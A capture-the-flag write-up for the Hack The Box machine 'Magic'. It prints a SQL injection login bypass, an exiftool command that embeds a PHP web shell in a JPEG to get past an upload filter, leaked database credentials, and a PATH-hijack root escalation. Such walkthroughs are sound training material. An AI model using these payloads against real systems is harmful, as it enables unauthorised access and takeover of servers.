```yaml
---
title: "Hack The Box - Magic"
tags: [linux,medium,sqli,upload,mysql,path hijack]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png)

## Enumerating Web :

⇒ There's an login page :
[http://10.10.10.185/login.php](http://10.10.10.185/login.php)

→ We are able to login by performing SQLi :

`admin' or 1=1; --';`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png)

→ Uploaded images go to :
[http://10.10.10.185/images/uploads/](http://10.10.10.185/images/uploads/)

## Exploiting Upload

⇒ There are filters which restrict us to upload php files. So we will use image magic bytes to bypass the check.

→ Lets use exiftool to embed our php script to an jpeg image :

`exiftool -DocumentName="<h1>Enox<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';}__halt_compiler();?></h1>" index.jpeg`

→ Now we will rename the file to index.php.jpeg and upload it 

→ Lets access it :
[http://10.10.10.185/images/uploads/index.php.jpeg](http://10.10.10.185/images/uploads/index.php.jpeg)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png)

We have command execution , lets pop an shell.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png)

## Privilege Escalation to User

⇒ We found an interesting file db.php5 in the web folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png)

⇒ We got mysql credentials. Lets use it to dump everything in the database.

`mysqldump -u theseus -piamkingtheseus Magic`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png)

→ We got some credentials :
**Th3s3usW4sK1ng**

⇒ We are able to switch to theseus user using the credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png)

## Privilege Escalation to Root

→ After running [linenum.sh](http://linenum.sh) we find an interesting SUID :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png)

**⇒ Escalating Privileges using path variable**

[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

→ After running strings on the binary we see the following interesting things :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png)

→ We see that full path isnt specified so we can perform path hijacking.

```
cd /tmp
echo "/bin/bash" > lshw
chmod 777 lshw
echo $PATH
export PATH=/tmp:$PATH
cd /bin
./sysinfo
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png)

→ We can't get any output so lets get an reverse shell using python reverse shell from pentest monkey

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png)

